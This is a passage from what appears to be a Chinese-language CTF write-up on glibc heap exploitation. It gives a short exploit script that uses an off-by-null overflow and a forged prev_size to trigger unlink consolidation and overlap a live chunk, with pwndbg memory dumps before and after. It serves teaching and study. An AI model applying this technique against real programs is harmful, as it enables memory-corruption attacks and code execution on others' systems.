 ```
0xbec250:      0x3232323232323232      0x3232323232323232 |
0xbec260:      0x3232323232323232      0x3232323232323232 |
0xbec270:      0x3232323232323232      0x3232323232323232 |
0xbec280:      0x3232323232323232      0x3232323232323232 /
0xbec290:      0x3232323232323232      0x0000000000000021 \ chunkD
0xbec2a0:      0x3333333333333333      0x3333333333333333 /
0xbec2b0:      0x0000000000000000      0x0000000000020be1
0xbec2c0:      0x0000000000000000      0x0000000000000000   
```

**STEP2**  编辑脚本，先free chunk0，再通过chunk1触发off-by-null漏洞覆盖chunk2的P位(previous in use)，同时把chunk2的prev_size改为sizeof(chunk0) + sizeof(chunk1)。这样可以保证free触发unlink的合并，再free chunk2。

> 这一过程细节可以网上查free过程资料，或带源码调试

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x10)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
pause()
delete(2)
```

off-by-null发生时，chunk2的P位清零，通过free chunk2触发chunk0和chunk2合并为一个大的bin，此时chunk1被overlap (即chunk1实际上没有被free，但处于先前有chunk0和chunk2合并的free chunk当中)。

> 之所以需要先free chunk0，是因为要触发unlink，先free chunk0是为了构造unlink的条件，具体参考unlink资料。chunk0 free后，这两个chunk合并可以通过unlink检查。

off-by-null并改写prev_size后:

```
pwndbg> x/86gx 0x1620020
0x1620020:      0x0000000000000000      [0x00000000000101] \
0x1620030: fd-> [0x007f4515a8fb78] bk-> [0x007f4515a8fb78] |
0x1620040:      0x3030303030303030      0x3030303030303030 |
0x1620050:      0x3030303030303030      0x3030303030303030 |
0x1620060:      0x3030303030303030      0x3030303030303030 |
0x1620070:      0x3030303030303030      0x3030303030303030 |
0x1620080:      0x3030303030303030      0x3030303030303030 |
0x1620090:      0x3030303030303030      0x3030303030303030 | free chunk
0x16200a0:      0x3030303030303030      0x3030303030303030 |
0x16200b0:      0x3030303030303030      0x3030303030303030 |
0x16200c0:      0x3030303030303030      0x3030303030303030 |
0x16200d0:      0x3030303030303030      0x3030303030303030 |
0x16200e0:      0x3030303030303030      0x3030303030303030 |
0x16200f0:      0x3030303030303030      0x3030303030303030 |
0x1620100:      0x3030303030303030      0x3030303030303030 |
0x1620110:      0x3030303030303030      0x3030303030303030 /
0x1620120:      [0x00000000000100]      [0x00000000000070] \                # 0x100: prev_size (set by free)
